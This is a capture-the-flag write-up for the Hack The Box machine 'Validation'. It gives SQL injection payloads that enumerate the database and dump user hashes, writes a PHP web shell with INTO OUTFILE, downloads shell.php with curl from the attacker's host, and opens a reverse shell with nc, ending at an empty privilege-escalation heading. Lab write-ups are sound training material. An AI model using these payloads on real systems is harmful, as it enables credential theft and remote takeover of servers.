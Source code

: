 # Validation HacktheBox

**ENUMERATION**

**NMAP**

![image](https://user-images.githubusercontent.com/79543461/177142512-ca4b0e81-c4bd-4cae-a65e-6dc6976a7242.png)

**Port 80**

![image](https://user-images.githubusercontent.com/79543461/177142701-0be496f1-60ba-4fed-871d-836ca8352fb7.png)

**Port 4566**

![image](https://user-images.githubusercontent.com/79543461/177142777-127ce58a-10c2-4d35-99cd-904be4e79abd.png)

**Port 8080**

![image](https://user-images.githubusercontent.com/79543461/177142844-5600bb65-4f47-4ae9-8d4c-e20eaca2a966.png)

I enumerate Port 80:

![image](https://user-images.githubusercontent.com/79543461/177143065-83faf0c0-e186-40e3-aac5-4011e709f972.png)

**First Attack Vectors**

The index page of this web it's a form to qualify for something called September UHC, let's try to inject code SQL,XSS,HTML and more.

**XSS**

Payload: <script>alert("SS")</script>

![image](https://user-images.githubusercontent.com/79543461/177160817-3203a467-57bd-4bb6-ab4a-50d45508fc1c.png)

**It's Vulnerable to XSS and HTML Injection, but i can't do anything**

**SQLI**

**BurpSuite**

Payload: ' order by 10000-- - == **NO WORK**

Payload: ' union select 1-- - == **NO WORK**

**Country Field**

Let's try to do this payloads with other field from request.

Payload: ' union select 1-- - == **WORKS!!!!!**

![image](https://user-images.githubusercontent.com/79543461/177161840-7352bb95-c77b-451d-9b9f-8d3d785baed2.png)

![image](https://user-images.githubusercontent.com/79543461/177162100-a0e026a4-6b8d-4f35-b056-161b90c9238e.png)

Let's go to enumerate Things.

**Database**

Payload: ' union select database()-- -

![image](https://user-images.githubusercontent.com/79543461/177163576-b903824d-3109-4143-b421-39d210096c0e.png)

**Version**

Payload: ' union select @@version-- -

![image](https://user-images.githubusercontent.com/79543461/177164063-41a93070-b0fc-4cfc-8592-f87ac3f97f96.png)

**All DataBases**

Payload: ' union select schema_name from information_schema.schemata

![image](https://user-images.githubusercontent.com/79543461/177171212-3efc9aa0-4291-4807-abf9-66885bfe0a08.png)

**Tables Registration Database**

Payload: ' union select table_name from information_schema.tables where table_schema="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177171583-48dca75b-e3f3-4a55-a860-3d5297fb0f45.png)

Table name is the same than DataBase Name

**Columns**

Payload: ' union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -

![image](https://user-images.githubusercontent.com/79543461/177172114-948b0c56-5358-47d9-8328-fec1366e3086.png)

**Users and Passwords**

Payload: ' union select group_concat(username,0x3a,userhash) from registration-- -

![image](https://user-images.githubusercontent.com/79543461/177172762-289b5e1f-248c-4e39-994f-d6fd8a30c4ff.png)

This users are my users...

**RCE**

Payload: ' union select "<?php system($_REQUEST['cmd']);?>" into outfile "/var/www/html/rce.php"-- -

**Works!!**

![image](https://user-images.githubusercontent.com/79543461/177177136-7d1b27fa-3f5e-420b-9fb2-e048e02d502a.png)

**Reverse Shell**

I create in my Kali Machine a php script to gain reverse shell.

I open http server wirth python3: python3 -m http.server

In victim RCE: curl -o shell.php 10.10.14.33:8000/shell.php

Now i put rlwrap nc -lnvp 1212

I access to:  http://10.10.11.116/shell.php

**I HAVE SHELL!!**

![image](https://user-images.githubusercontent.com/79543461/177179263-e41c28fb-324e-4e7d-926b-8e39c4548d11.png)

**PRIVESC**
